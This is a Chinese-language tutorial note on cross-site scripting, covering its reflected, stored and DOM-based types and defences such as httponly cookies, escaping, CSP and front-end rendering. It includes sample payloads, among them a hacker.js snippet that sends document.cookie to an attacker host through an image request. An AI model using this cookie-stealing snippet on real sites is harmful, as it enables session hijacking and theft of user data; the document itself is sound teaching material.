 https://tech.meituan.com/2018/09/27/fe-security.html

# XSS（Cross Site Scripting）
XSS攻击全称跨站脚本攻击，是为了区别于层叠样式表CSS所以使用XSS作为缩写

使用cookie，localStorage，sessionStorage时要注意是否有代码存在XSS注入的风险

## XSS注入的方法
- 在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 在标签的 href、src 等属性中，包含 javascript: 等可执行代码。
- 在 onload、onerror、onclick 等事件中，注入不受控制代码。
- 在 style 属性和标签中，包含类似 background-image:url("javascript:..."); 的代码（新版本浏览器已经可以防范）。
- 在 style 属性和标签中，包含类似 expression(...) 的 CSS 表达式代码（新版本浏览器已经可以防范）。

## 攻击类型
### 一、 反射型  
是指发生请求时，XSS代码出现在**请求URL**中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。  
举个例子
```javascript
`${url}?name=<script>alert(111)</script>`
```

攻击步骤
1. 攻击者构造出**特殊的 URL**，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。

举个例子，当我们在test.html中有一个搜索的url，test.html?q=xxx，这里的xxx就是搜索的内容，而我们在自己的攻击网站hacker.html中，添加一个跳转
```html
<a href="test.html?q=<script src='hacker.js'></script>"></a>
```
那么用户在点击这个链接时，就等于在搜索框输入了
```html
<script src='hacker.js'></script>
```
此时，就会加载了我之前准备好的攻击文件，hacker.js
```javascript
var img = new Image();
img.src = "http://hacker.html?q="+document.cookie;
document.body.append(img);
```
这样子，就会将用户的cookie发送到我的服务端，就会造成cookie被我知道了

### 二、 存储型  
存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上XSS代码了。最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现XSS代码时并不会加以判断，直接当做正常的HTML和JS解析执行，此时XSS攻击就发生了。  
比如在某个页面上有留言版，我们在留言上写上这样的内容
```html
<script>alert(1111)</script>
```
在下次用户打开页面的时候，就会先弹出1111（如果没有对该攻击做出防御的话）

攻击步骤
1. 攻击者将恶意代码提交到目标网站的**数据库**中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

### 三、DOM 型 XSS
攻击步骤
1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

## 防止被攻击的手段
1. 使用cookie的httponly属性，防止通过document.cookie获取cookie

2. 在服务器对内容进行过滤  
识别标签进行替换，将<替换成&lt;

3. 使用CSP  
实施严格的CSP可以有效地防范XSS攻击，具体来讲CSP有如下几个功能：

* 限制加载其他域下的资源文件，这样即使黑客插入了一个JavaScript文件，这个JavaScript文件也是无法被加载的；
* 禁止向第三方域提交数据，这样用户数据也不会外泄；
* 禁止执行内联脚本和未授权的脚本；
* 还提供了上报机制，这样可以帮助我们尽快发现有哪些XSS攻击，以便尽快修复问题。

因此，利用好CSP能够有效降低XSS攻击的概率。

4. 纯前端渲染  
使用第2种方法会带来很多问题，如果在前端做处理的话，那么攻击者可能会绕过前端直接发起请求，而如果在后端存储时做处理，对应前端不同地方的处理不同，可能会造成渲染出现问题的情况

纯前端渲染：
- 浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。
然后浏览器执行 HTML 中的 JavaScript。
- JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上。
- 在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式（.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等）。

在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。
